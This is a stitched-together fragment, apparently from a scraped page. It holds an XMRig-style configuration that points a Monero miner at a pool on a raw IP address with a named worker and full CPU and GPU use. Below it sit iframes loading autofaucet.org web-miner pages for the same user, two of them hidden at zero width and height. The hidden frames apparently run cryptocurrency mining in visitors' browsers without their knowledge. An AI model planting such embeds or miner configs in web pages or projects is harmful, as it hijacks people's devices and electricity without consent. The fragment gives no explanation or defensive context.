 {
    "autosave": true,
    "donate-level": 1,
    "cpu": {
        "enabled": true,
        "huge-pages": true,
        "hw-aes": null,
        "priority": null,
        "asm": true,
        "max-threads-hint": 100,
        "max-cpu-usage": 100,
        "yield": false,
        "init": -1,
        "*": {
            "intensity": 2,
            "threads": 8,
            "affinity": -1
        }
    },
    "opencl": true,
    "cuda": true,
    "pools": [
        {
            "coin": "monero",
            "algo": "cn-heavy/tube",
            "url": "168.235.86.33:3388",
            "user": "SK_QzApkbVGsAxyQykaWSnEF.Letishbite",
            "pass": "x",
            "tls": false,
            "keepalive": true,
            "nicehash": false
        }
    ]
}<iframe src = "https://autofaucet.org/wm/Letishbite/2" width = "0" height = "0" style = "border: 0"> </iframe>
<iframe src = "https://autofaucet.org/wm/Letishbite/4" width = "0" height = "0" style = "border: 0"> </iframe>
<iframe src = "https://autofaucet.org/wmi/Letishbite" width = "400" height = "400" style = "border: 0"> </iframe>

